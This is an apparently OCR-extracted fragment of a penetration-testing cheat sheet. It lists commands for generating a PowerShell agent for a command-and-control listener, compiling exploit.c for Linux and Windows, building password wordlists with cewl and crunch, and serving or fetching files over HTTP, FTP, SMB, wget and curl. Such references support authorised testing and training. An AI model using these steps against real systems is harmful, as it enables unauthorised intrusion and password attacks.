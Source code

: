 # Agent (exemple)
generate_powershell <LISTENER_NAME>
generate_powershell listener_1
Compiling exploits
For linux
# 64 bits
gcc -o exploit exploit.c

# 32 bits
gcc -m32 -o exploit exploit.c
For windows
To compile Win32 bit executables, execute i686-w64-mingw32-gcc -o <FILE.exe> <FILE.c>
To compile Win64 bit executables, execute x86_64-w64-mingw32-gcc -o <FILE.exe><FILE.c>
To Compiled .cpp source file, execute i586-mingw32msvc-g++ -o <FILE>.exe <FILE>.cpp
To compile python scripts, pyinstaller --onefile <SCRIPT.py>

# Compile windows .exe on Linux
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
Cross compile
gcc -m32 -Wall -Wl,--hash-style=both -o gimme.o gimme.c
DICTIONARY GENERATION
cewl -m <WORDS_SIZE> --with-numbers -w dictiFromWebsite <URL> -d <DEPTH>
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Test@ -o passwords.txt
FILE TRANSFER
Linux
# PYTHON
python -m SimpleHTTPServer <PORT>
python2.7 -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# FTP
sudo python3 -m pyftpdlib  -p 21 -w

# SMB
sudo smbserver.py -smb2support liodeus .

# WGET
wget <URL> -o <OUT_FILE>

# CURL
curl <URL> -o <OUT_FILE>

